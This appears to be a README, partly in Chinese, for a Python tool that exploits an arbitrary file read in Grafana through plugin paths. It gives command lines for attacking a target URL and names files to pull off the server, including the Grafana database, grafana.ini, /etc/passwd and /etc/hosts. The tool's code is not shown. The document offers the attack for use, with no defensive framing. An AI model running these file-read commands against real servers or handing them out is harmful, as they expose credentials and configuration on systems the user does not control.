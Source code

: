 参考链接:https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw  
grafana_read.py
```text
Usage: grafana_read.py [options]

Options:
  -h, --help  show this help message and exit
  -c ID       默认检测/自定义路径
  -p CHECK    是否使用默认插件路径检测/目标插件路径搜索检测
  -u URL      要检测的url
python grafana_read.py -u <url> -c 0 -p 0 #默认插件路径默认payload检测
python grafana_read.py -u <url> -c 1 -p 0 #页面搜索插件路径检测
python grafana_read.py -u <url> -c 0 -p /etc/hosts #默认插件路径自定义文件读取
python grafana_read.py -u <url> -c 1 -p /etc/hosts #页面搜索插件路径自定义文件读取
```

默认读取:/etc/grafana/grafana.ini  
可以考虑读取以下文件
```text
/var/lib/grafana/grafana.db
/etc/grafana/grafana.ini 
/etc/hosts
/etc/passwd
```

Exmaple:
![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)